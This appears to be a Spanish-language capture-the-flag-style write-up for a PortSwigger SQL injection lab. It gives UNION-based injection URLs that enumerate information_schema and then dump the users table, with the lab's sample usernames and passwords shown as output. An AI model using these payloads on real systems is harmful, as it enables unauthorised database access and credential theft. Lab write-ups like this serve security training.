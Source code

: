 # `LAB`: SQL injection attack, listing the database contents on non-Oracle databases

## Descripción:

 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- Muy similar a los laboratorios anteriores enfocados a diferentes RDBMS
- En este caso es llegar hasta el login con `adminsitrador`




## Solución:

````py
## Dumpear la base de Datos:
.web-security-academy.net/filter?category=-Pets' Union Select '1',schema_name FROM information_schema.schemata -- -
    # information_schema
    # public
    # pg_catalog

## Dumpear el Nombre de las Tablas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
    # products
    # users_tcaine

## Dumpear el Nombre de las Columnas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users_tcaine' -- -
    # password_wyuxxb
    # username_fzanak

## Dumpear los Datos
.web-security-academy.net/filter?category=-Pets' Union Select '1',concat(password_wyuxxb,' ::: ',username_fzanak) from users_tcaine -- -
.web-security-academy.net/filter?category=-Pets' Union Select '1',password_wyuxxb||' : '||username_fzanak from users_tcaine -- -
    # ybh5rrmndjm9grpgaac3 ::: administrator
    # f18xc226xxi0tb4g9zpv ::: carlos
    # onix1tykwp2vvyphg0gb ::: wiener
````
